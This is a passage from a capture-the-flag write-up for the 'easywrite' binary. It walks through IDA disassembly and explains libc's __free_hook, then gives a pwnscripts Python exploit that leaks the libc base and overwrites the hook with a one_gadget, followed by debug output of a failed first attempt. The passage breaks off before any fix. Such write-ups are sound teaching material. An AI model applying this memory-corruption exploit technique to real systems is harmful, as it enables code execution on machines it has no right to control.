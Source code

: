 ```c
.got.plt:00000000001EB020                                         ; Indirect relocation
.got.plt:00000000001EB028 off_1EB028      dq offset wcschr        ; DATA XREF: sub_25360+4↑r
...
.got.plt:00000000001EB178 off_1EB178      dq offset strcasecmp    ; DATA XREF: sub_25600+4↑r
.got.plt:00000000001EB178                                         ; Indirect relocation
.got.plt:00000000001EB180 off_1EB180      dq offset strncpy       ; DATA XREF: sub_25610+4↑r
.got.plt:00000000001EB180                                         ; Indirect relocation
.got.plt:00000000001EB188 off_1EB188      dq offset memmove       ; DATA XREF: sub_25620+4↑r
.got.plt:00000000001EB188 _got_plt        ends                    ; Indirect relocation
```
...or it would've been, if there were any useful functions in the whole list. Long story short; all of the functions there are never called by the program<sup>1</sup>, so we'll move on.

After the Procedure Linkage Table, there's a long stretch of garbage in the form of the `.data` and `.bss` sections, along with a few other `__libc_*` sections that are basically never referenced either<sup>2</sup>.

A few hours of blank staring later, and my eyes finally saw something I'd missed the last 10 times I tried scanning IDA View-A:
```c
.bss:00000000001EEB28                 public __free_hook ; weak
.bss:00000000001EEB28 ; __int64 (__fastcall *_free_hook)(_QWORD, _QWORD)
.bss:00000000001EEB28 __free_hook     dq ?                    ; DATA XREF: LOAD:0000000000008A48↑o
.bss:00000000001EEB28                                         ; .got:__free_hook_ptr↑o
```
*__free_hook? Isn't that that thing that I heard about once a long time ago in a [writeup](https://teamrocketist.github.io/2019/09/09/Pwn-N1CTF-2019-warmup/) somewhere?*

To repeat something you may already know: `__free_hook()` is a function pointer that overrides the default behaviour of `free()` iff `__free_hook != NULL`. If we change `__free_hook` to point to a `one_gadget` (or something), we'll have beaten the challenge.

Let's try that.
```python
from pwnscripts import *
context.binary = 'easywrite'
context.libc_database = 'libc-database'
context.libc = 'libc-2.31.so'

context.log_level = 'debug'
r = context.binary.process()
context.libc.calc_base('setbuf', unpack_hex(r.recvline()))

free_hook = 0x00000000001EEB28+context.libc.address
r.sendafter('Input your message:', pack(context.libc.select_gadget(1)))
r.sendafter('Where to write?:', pack(free_hook))
r.sendafter('Any last message?:', b'\0')

r.interactive()
```
Things are never so simple, of course.
```python
[DEBUG] Received 0x12 bytes:
    b'Any last message?:'
[DEBUG] Sent 0x1 bytes:
    0 * 0x1
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[*] Got EOF while reading in interactive
$
```
A little backtracing in `gdb` shows the issue. First, we'll let it crash, and observe the backtrace:
```c
```